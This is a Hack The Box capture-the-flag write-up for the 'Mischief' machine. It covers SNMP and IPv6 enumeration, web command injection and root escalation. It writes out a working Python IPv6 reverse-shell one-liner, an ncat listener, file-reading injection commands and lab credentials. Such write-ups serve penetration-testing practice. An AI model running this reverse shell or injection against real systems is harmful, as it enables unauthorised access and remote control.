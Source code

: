 ```yaml
---
title: "Hack The Box - Mischief"
tags: [linux,insane,snmp,ipv6,snmp-check,enyx,bash history, code injection]
categories: HackTheBox
---
```


![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled.png)

## NMAP :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%201.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%201.png)

⇒ On [http://10.10.10.92:3366](http://10.10.10.92:3366) we have a http-authentication form. We dont have any credentials to login.

⇒ We ran udp port scan and found snmp open :

161/udp open snmp

## Enumerating SNMP :

→ Ran snmp-check and found the following :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%202.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%202.png)

**loki : godofmischiefisloki**

→ Using these credentials we were able to login on the caldav webpage :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%203.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%203.png)

→ More new credentials :

**loki : trickeryanddeceit**

⇒ Lets enumerate **ipv6** through **snmp**

Tool : [https://github.com/trickster0/Enyx](https://github.com/trickster0/Enyx)

**python [enyx.py](http://enyx.py/) 2c public 10.10.10.92**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%204.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%204.png)

`**dead:beef:0000:0000:0250:56ff:feb9:2353**`

⇒ Lets run nmap :

**nmap -6 -sV -sC -A dead:beef:0000:0000:0250:56ff:feb9:2353**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%205.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%205.png)

⇒ Webpage : http://[dead:beef::250:56ff:feb9:2353]/

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%206.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%206.png)

→ We logged in as user **administrator** with password **trickeryanddeceit**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%207.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%207.png)

⇒ We have command execution. It says that the password is stored in home directory :

→ Reading everything in loki home directory :

**cat /home/loki/* ;**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%208.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%208.png)

SSH : **loki : lokiisthebestnorsegod**

⇒ SSH'ed in as loki

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%209.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%209.png)

**USER OWNED**

## Privilege Escalation to Root

⇒ In user bash_history we find the following :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%2010.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%2010.png)

→ Password : **lokipasswordmischieftrickery**

→ We tried switching to root using this password but it blocks the command. 

⇒ Lets get a shell as www-data through the web rce and then switch to root

→ Starting listener :

**ncat -6 -nlvp 4444**

→ Running command. [ Note : We are using our IPV6 address ]

**`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::102b",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' ;`**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%2011.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%2011.png)

⇒ Switched to root using the password we found in bash_history :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%2012.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%2012.png)

**ROOTED**

→ ***/root/root.txt*** says the flag is not here. So lets run find command :

**find / -type f -name root.txt**

[TL;DR](https://www.notion.so/TL-DR-4adac5dc154f4190ba8f916e6deed67f)
